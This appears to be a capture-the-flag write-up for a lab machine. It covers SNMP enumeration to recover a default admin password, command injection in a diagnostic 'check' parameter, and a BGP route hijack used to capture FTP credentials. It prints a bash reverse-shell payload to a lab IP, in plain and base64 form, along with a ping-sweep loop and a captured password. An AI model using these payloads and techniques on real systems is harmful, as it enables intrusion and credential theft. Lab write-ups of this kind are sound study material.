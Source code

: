 # Carrier
10.10.10.105

# User
80 port leads to a login page

### Versions
```
PHP Version 7.0.30-0ubuntu0.16.04.1
```

A login page with "Lyghtspeed"

### GoButser
```
/img
/tools
/css
/js
/debug
/doc
```

On /doc found error_code.pdf

Error 45009 tells me default admin password is set

```
System credentials have not been set Default admin user password is set (see chassis serial number)
```

Decided to enumerate more. So I performed a nmap udp scan.

```
nmap.udp.txt
```

Found an open port 161 that is simple management protocol

By running:

```
snmpwalk -v 2c -c public 10.10.10.105
```

You get the string:

```
SN#NET_45JDX23
```

This gives the login

```
admin
NET_45JDX23
```

Diagnostic page has mention of:

```
zebra
bgpd
watchquagga
```

The verify button sends a parameter known as 'check' but seems to place the value straight into a command

This means we can add a ";" and run our own commands!! Reverse shell time!!!

Payload:
```
; bash -i >& /dev/tcp/10.10.14.55/8000 0>&1
```

Base64 Encoded:
```
OyBiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjU1LzgwMDAgMD4mMQo=
```

Gives us a reverse shell

# ROOT

Netstat:
```
tcp        0      0 10.78.10.1:bgp          10.78.10.2:49462        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:52270      ESTABLISHED
tcp        0      0 10.78.11.1:bgp          10.78.11.2:47872        ESTABLISHED
tcp        0      8 10.99.64.2:49350        10.10.14.55:8000        ESTABLISHED
tcp        0      0 10.99.64.2:ssh          10.99.64.251:43758      ESTABLISHED
```

In the ticket information we have mention of

```
..."CastCom. still reporting issues with 3 networks: 10.120.15,10.120.16,10.120.17/24's"...
..."issues connecting by FTP to an important server in the 10.120.15.0/24 network"...
```
This shows the aim of the challenge is to obtain the 'important' ftp traffic

# Networks

```
10.120.15.0/24 
10.120.16.0/24
10.120.17.0/24
```

Scanning for active hosts without nmap
```
for x in {15..17} ; do (for i in {1..254} ;do (ping 10.120.$x.$i -c 1 -w 5  >/dev/null && echo "10.120.$x.$i" &) ;done) ; done
```

### 10.120.15.0/24

```
10.120.15.1
10.120.15.10 # FTP?
```

Nothing active on 10.120.16.0/24 or 10.120.17.0/24?

This whole network is a series of bgp routers


Using the vtysh command shell we can view the route a packet will take to reach the target ftp server

```
$ vtysh -c "show ip bgp"

*  10.120.15.0/24   10.78.10.2                             0 200 300 i
*>                  10.78.11.2               0             0 300 i
```

Running our config.sh script on the system downloads our custom script and restarts the service. **This advertises that we are the shorted route to the ftp server.**

Out overall aim is to impersonate the FTP server

Now was able are able to receive the ftp traffic using ftpd.py giving us:

```
2019-03-15 15-54-01 [-] USER: root
2019-03-15 15-54-01 [-] Received data: PASS BGPtelc0rout1ng
```
 You can now ssh onto 10.120.15.10 and get the root flag!
